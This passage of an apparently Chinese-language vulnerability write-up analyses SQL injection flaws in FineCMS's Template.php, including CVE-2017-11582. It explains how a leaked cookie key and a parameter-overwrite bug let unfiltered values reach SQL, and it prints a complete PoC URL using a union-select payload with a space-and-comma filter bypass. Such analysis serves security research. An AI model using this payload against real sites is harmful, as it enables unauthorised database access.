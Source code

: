 这个安全码直接定义在config中，可以在后台被修改，会在cookie中被泄露

当我们第一次访问站点的时候，我们会获得cookie，这个前缀就是安全码

![image.png-79.7kB][8]

获取安全码MD5后进入函数list_tag，跟入 `/finecms/dayrui/libraries/Template.php` 402行。

![image.png-146.4kB][9]

param参数通过空格分割，然后解析分别赋值给system参数字典中，理论上这里是个变量覆盖漏洞。

通过这里，我们可以设置任意一个system变量。

通过构造形似
```
param=action=related
```
这样的请求来进入case，这里我们进入action=related

![image.png-202.3kB][10]

为了进入判断，我们必须传入catid，并且保证参数内存在逗号，这样catid的每一个值就会不经过任何变量过滤进入sql语句，形成注入。

这里有一个小问题就是不能使用空格和逗号，空格可以用换行符替代，逗号需要用一点儿黑科技，不过也不是很麻烦。

## PoC ##

打开网站并获取cookie中的SYS_KEY.

payload:
```
http://finecms.com/index.php?
c=api&m=data2&auth={md5(SYS_KEY)}&param=action=related%20module=news%20tag=1,2%20catid=1,12))%0aand%0a0%0aunion%0aselect%0a*%0afro
m(((((((((((((((((((select(user()))a)join(select(2))b)join(select(3))c)joi
n(select(4))d)join(select(5))e)join(select(6))f)join(select(7))g)join(sele
ct(8))h)join(select(9))i)join(select(10))j)join(select(11))k)join(select(1
2))l)join(select(13))m)join(select(14))n)join(select(15))o)join(select(16)
)p)join(select(17))q)join(select(18))x)%23
```

![image.png-65.2kB][11]

# Template.php num变量 SQL注入漏洞(CVE-2017-11582) #

## 漏洞分析: ##

这个漏洞前面部分的流程和上个漏洞触发方式相同，也是通过安全码，从data2函数进入list_tag函数，通过设置action=tags或者action=related。

`$system['num']` 参数存在limit注入，唯一的问题就是limit注入必须在5.0.0<mysql<5.6.6情况下才成立。

![image.png-56kB][12]


  [1]: http://static.zybuluo.com/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: http://static.zybuluo.com/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: http://static.zybuluo.com/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: http://static.zybuluo.com/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: http://static.zybuluo.com/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: http://static.zybuluo.com/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: http://static.zybuluo.com/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: http://static.zybuluo.com/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: http://static.zybuluo.com/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: http://static.zybuluo.com/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: http://static.zybuluo.com/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: http://static.zybuluo.com/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: http://static.zybuluo.com/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: http://static.zybuluo.com/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: http://static.zybuluo.com/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: http://static.zybuluo.com/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: http://static.zybuluo.com/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png